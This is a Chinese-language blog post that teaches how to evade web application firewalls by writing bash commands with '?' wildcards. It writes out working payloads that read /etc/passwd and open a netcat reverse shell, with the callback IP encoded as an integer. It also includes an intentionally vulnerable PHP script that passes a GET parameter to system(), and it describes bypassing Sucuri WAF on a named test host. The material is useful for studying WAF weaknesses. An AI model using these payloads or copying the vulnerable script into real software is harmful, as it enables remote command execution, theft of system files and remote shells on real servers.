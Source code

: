 # bash和通配符用法

[2020-03-25]()

### [](#特殊的通配符用法 "特殊的通配符用法")特殊的通配符用法

Bash 标准通配符（也称为通配符模式）被各种命令行实用程序用于处理多个文件。并不是每个人都知道 bash 语法可以使用问号 `?`、正斜杠 `/`、数字和字母来执行系统命令。你甚至可以枚举文件并使用相同数量的字符获取其内容。  
  
举几个例子：  
可以使用以下语法来取代 ls 命令：`/???/?s`  
![](1.png)  
用这种语法，你可以基本做到你想做的任何事情。假设存在漏洞的目标位于WAF的后面，并且此 WAF 有一条规则，该规则可阻止包含 `/etc/passwd` 或 `/bin/ls` 在 GET 参数的值内或 POST 正文中的所有请求。

如果你试图发出这样的请求，`/?cmd=cat+/etc/passwd` 它将被目标 WAF 阻止，你的 IP 将被永久禁止，并被标记为 **yet another f\***in’ redteamer\*\*。但你有通配符这个秘密武器。

如果目标 WAF 不阻止查询字符串里的 `?` 和 `/`，你就可以很容易地让你的请求（url 编码）变成这样：`/?cmd=%2f???%2f??t%20%2f???%2fp??s??`  
![](2.png)  
上图所示，有 3 个错误：`/bin/cat *: Is a directory`。发生这种情况是因为 `/???/?t` 可以被全局进程解释成 `/bin/cat`，也可以解释成 `/dev/net` 或 `/etc/apt` 等。

问号通配符可以代表任何字符。因此，如果你知道一个文件名的一部分，那么你可以使用这个通配符。例如，`ls *.???` 将列出当前目录中所有长度为 3 个字符的文件扩展名。因此，你将会看到具有诸如 .gif，.jpg，.txt 之类扩展名的文件。

使用这个通配符，你可以用 `netcat` 执行一个反弹 shell。假设你需要在端口 1337（通常 `nc \-e /bin/bash 127.0.0.1 1337`）执行一个 127.0.0.1 的反弹 shell ，你可以用下面的语法来完成：  
/\?\?\?/n\? \-e /\?\?\?/b\?\?h 2130706433 1337

将 IP 地址127.0.0.1转换为长整数格式（2130706433），可以避免在 HTTP 请求中使用 . 字符。

在 kali 中，需要使用 `nc.traditional` 而不是 `nc`，没有 `-e`参数，以便 `/bin/bash` 连接后执行。有效载荷变成这样：

```
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

![](3.gif)  
使用通配符执行反弹 shell  
在对我们刚才看到的两个命令进行总结：

> 标准：/bin/nc 127.0.0.1 1337  
> 绕过：/\?\?\?/n\? 2130706433 1337  
> 使用字符：/ \? n \[0-9\]

> 标准：/bin/cat /etc/passwd  
> 绕过：/\?\?\?/\?\?t /\?\?\?/\?\?ss\?\?  
> 使用字符：/ \? t s

为什么使用 `?` 而不是 `*?`由于`*`广泛用于评论语法，许多 WAF 为了避免 SQL 注入而过滤它，像 `UNION+SELECT+1,2,3/*`

使用 echo 来枚举文件和目录。该 echo 命令可以使用通配符枚举文件系统上的文件和目录。例如 `echo /*/*ss*`:  
![](4.png)

这命令可以在 RCE 漏洞中使用，以获取目标系统上的文件和目录，例如：  
![](5.png)  
但为什么使用通配符（特别是问号）可以绕过WAF？

### [](#Sucuri-WAF绕过 "Sucuri WAF绕过")Sucuri WAF绕过

![](6.png)  
测试 WAF 规则集的最佳方法是什么？创建一个有漏洞的 PHP 脚本，并尝试所有可能的技术。在上图的左上方的窗格中，是一个有漏洞的PHP脚本。

```
<?php
    echo 'ok: ';
    print_r($_GET['c']);
    system($_GET['c']);
?>
```

在左下方的窗格中，你可以看到对这个网站（test1.unicresit.it）进行远程命令执行测试。正如你所看到的，Sucuri WAF 以 **An attempted RFI/LFI was detected and blocked** 理由阻止请求。

右窗格显示了同样的请求，但却使用 `?` 作为通配符，结果是 Sucuri WAF 没有阻止这个请求，应用程序执行了放入 `c` 参数的命令。现在就可以读取 `/etc/passwd` 文件，甚至更多。

我可以读取应用程序本身的 PHP 源代码，可以使用 netcat（`/???/?c`）执行反弹 shell，或者我可以执行 curl 或 wget 来获取网络服务器的真实 IP，使我能够通过直接连接目标来绕过 WAF。

## [](#结论 "结论")结论

使用一些不常用的bash命令的技巧，还是可以绕过WAF的防护的。